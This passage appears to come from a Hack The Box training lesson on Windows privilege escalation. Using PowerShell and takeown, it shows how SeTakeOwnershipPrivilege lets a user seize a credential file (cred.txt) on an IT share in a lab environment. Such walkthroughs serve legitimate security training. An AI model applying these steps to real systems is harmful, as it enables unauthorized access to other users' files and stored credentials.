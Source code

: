 ```powershell-session
PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
 
FullName                                 LastWriteTime         Attributes Owner
--------                                 -------------         ---------- -----
C:\Department Shares\Private\IT\cred.txt 6/18/2021 12:23:28 PM    Archive
```

#### Checking File Ownership

We can see that the owner is not shown, meaning that we likely do not have enough permissions over the object to view those details. We can back up a bit and check out the owner of the IT directory.

SeTakeOwnershipPrivilege

```powershell-session
PS C:\htb> cmd /c dir /q 'C:\Department Shares\Private\IT'

 Volume in drive C has no label.
 Volume Serial Number is 0C92-675B
 
 Directory of C:\Department Shares\Private\IT
 
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  .
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  ..
06/18/2021  12:23 PM                36 ...                    cred.txt
               1 File(s)             36 bytes
               2 Dir(s)  17,079,754,752 bytes free
```

We can see that the IT share appears to be owned by a service account and does contain a file `cred.txt` with some data inside it.

#### Taking Ownership of the File

Now we can use the [takeown](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown) Windows binary to change ownership of the file.

SeTakeOwnershipPrivilege

```powershell-session
PS C:\htb> takeown /f 'C:\Department Shares\Private\IT\cred.txt'
 
SUCCESS: The file (or folder): "C:\Department Shares\Private\IT\cred.txt" now owned by user "WINLPE-SRV01\htb-student".
```

#### Confirming Ownership Changed

We can confirm ownership using the same command as before. We now see that our user account is the file owner.

SeTakeOwnershipPrivilege

```powershell-session
PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
 
Name     Directory                       Owner
----     ---------                       -----
cred.txt C:\Department Shares\Private\IT WINLPE-SRV01\htb-student
```

